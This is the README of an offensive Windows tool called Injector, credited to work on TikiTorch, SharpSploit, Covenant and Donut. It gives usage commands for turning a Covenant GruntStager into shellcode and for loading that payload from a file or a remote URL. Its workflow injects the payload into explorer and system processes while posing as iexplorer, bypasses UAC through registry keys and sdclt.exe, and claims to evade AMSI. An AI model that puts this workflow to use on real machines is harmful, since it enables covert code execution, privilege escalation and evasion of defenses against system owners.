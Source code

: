 # Injector

Injects shellcode into memory, tries to bypass UAC, and automatically tries to escalate to system

## Credits
This project is built upon the shoulders of giants:

@_RastaMouse -> Their work on TikiTorch and shell injection formed the groundwork for how the injector operates

@Cobbr_IO -> For the SharpSploit and Covenant projects

@TheRealWover -> For the Donut library and project


## PayLoad Creation (ShellcodeCreate.py)
Installation:
``` pip3 install donut-shellcode ```

Flags:
```
python3 ShellcodeCreate.py -h                           
usage: ShellcodeCreate.py [-h] [-f FILENAME] [-o OUTPUT]

arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        input file
  -o OUTPUT, --output OUTPUT
                        output file
```
Step1: Download the relevant GruntStager binary from covenant
Step2: Generate Payload
```
python3 ShellcodeCreate.py -f GruntStager.exe -opayload.txt
```

Current donut implementation results in shellcode also bypassing AMSI

## Injector.exe

```
Flags:
-w  <IP Address to Payload.txt>

-f <full path to payload.txt>

Injector.exe -f /path/to/payload.txt

Injector.exe -w http://10.10.10.123:8080/payload.txt
```

### Workflow
1. Identifies current user and injects payload under applicable explorer process (pretending to be iexplorer)
2. If user is local admin performs UAC bypass using Reg Keys and sdclt.exe
3. Attempts to bruteforce injection under System process (resulting in system level payload being exectued) (pretending to be iexplorer)


